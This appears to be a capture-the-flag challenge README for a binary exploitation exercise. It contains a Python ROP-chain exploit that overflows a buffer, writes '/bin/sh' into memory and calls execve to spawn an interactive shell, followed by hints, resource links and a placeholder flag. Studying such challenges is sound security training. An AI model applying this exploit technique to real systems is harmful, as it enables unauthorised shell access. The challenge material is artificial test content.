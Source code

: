 ```py
# address to move /bin/sh into writable memory
vmmap = 0x6b6000 # found from vmmap
movptr = 0x47f3c1 # mov qword ptr [rsi], rax ; ret

payload = b'A' * 120

# ROP chain to move /bin/sh
payload += p64(pop_rax) +  b'/bin/sh\x00'
payload += p64(pop_rsi) + p64(vmmap)
payload += p64(movptr)


# ROP (execve syscall)
# rax : 59 (0x3b)
# rdi : ptr to /bin/sh
# rdx : 0 
# rsi : 0

payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdi) + p64(vmmap)
payload += p64(pop_rdx) + p64(0) 
payload += p64(pop_rsi) + p64(0)

# syscall
payload += p64(syscall)

p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. look up linux syscall tables
2. 

## Attached Files
- chall.c
- chall

## Resources
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/rop-syscall-execv/index.html
- https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md

## Flag
TBD